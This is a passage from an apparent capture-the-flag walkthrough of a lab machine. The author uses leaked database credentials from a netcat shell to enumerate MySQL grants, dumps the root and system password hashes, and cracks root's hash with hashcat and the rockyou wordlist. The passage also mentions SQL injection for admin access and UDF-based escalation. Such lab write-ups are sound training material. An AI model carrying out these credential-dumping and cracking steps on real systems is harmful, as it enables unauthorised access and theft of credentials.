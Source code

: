 So mysql access with `webapp:webapp` at 192.168.2.200. Lets test this and check out the server. I executed commands using mysql -e on the netcat shell that just spawned:

```bash
mysql -uwebapp -pwebapp -h 192.168.2.200 -e 'show grants;'
Grants for webapp@192.168.2.100
GRANT SELECT, INSERT ON *.* TO 'webapp'@'192.168.2.100' IDENTIFIED BY PASSWORD '*BF7C27E734F86F28A9386E9759D238AFB863BDE3'
GRANT ALL PRIVILEGES ON `webapp`.* TO 'webapp'@'192.168.2.100'
```

So I can select anywhere. Nice :)

```bash
mysql -uwebapp -pwebapp -h 192.168.2.200 -e 'use webapp; show tables;'
Tables_in_webapp
todo
users
mysql -uwebapp -pwebapp -h 192.168.2.200 -e 'use webapp; select * from todo;'
task
stop running mysql as root
```

A table called `todo` exists, with a string `stop running mysql as root`. That was the first hint and immediately had me thinking about [MySQL UDF](http://www.mysqludf.org/)'s, one which could allow us to run system commands. However, in order to get a UDF loaded, I will need a dba level account, one which I don't have yet. From the previous grants output, I can see that I am allowed to query any table on the database server, so lets get some administrative hashes:

```bash
mysql -uwebapp -pwebapp -h 192.168.2.200 -e 'use mysql; select DISTINCT User,Password from user;'
User    Password
root    *ECB01D78C2FBEE997EDA584C647183FD99C115FD
debian-sys-maint    *E0E0871376896664A590151D348CCE9AA800435B
webapp  *BF7C27E734F86F28A9386E9759D238AFB863BDE3
```

As a side note, further enumeration of the PHP sources and MySQL table `users` showed that if we injected SQL on the registration page to add a extra `1`, we would be considered an admin, and would have also seen the admin page that is vulnerable to the already found command injection.

###cracking root's MySQL password
Now that I had the password hash for the root user, I proceeded to try and crack it. For this I used `hashcat` with the ever famous `rockyou` wordlist:

```bash
# first, echo the hash to a file
root@kali:~# echo "ECB01D78C2FBEE997EDA584C647183FD99C115FD" > db.root

# next, we tell hash cat the type of hash we have and wait a few seconds :)
root@kali:~# hashcat -m 300 db.root /usr/share/wordlists/rockyou.txt 
This copy of hashcat will expire on 01.01.2015. Please upgrade to continue using hashcat.

Initializing hashcat v0.47 by atom with 8 threads and 32mb segment-size...

Added hashes from file db.root: 1 (1 salts)
Activating quick-digest mode for single-hash

NOTE: press enter for status-screen

ecb01d78c2fbee997eda584c647183fd99c115fd:coolwater

All hashes have been recovered

Input.Mode: Dict (/usr/share/wordlists/rockyou.txt)
Index.....: 1/5 (segment), 3627099 (words), 33550339 (bytes)
Recovered.: 1/1 hashes, 1/1 salts
Speed/sec.: - plains, 3.27M words
Progress..: 281260/3627099 (7.75%)
```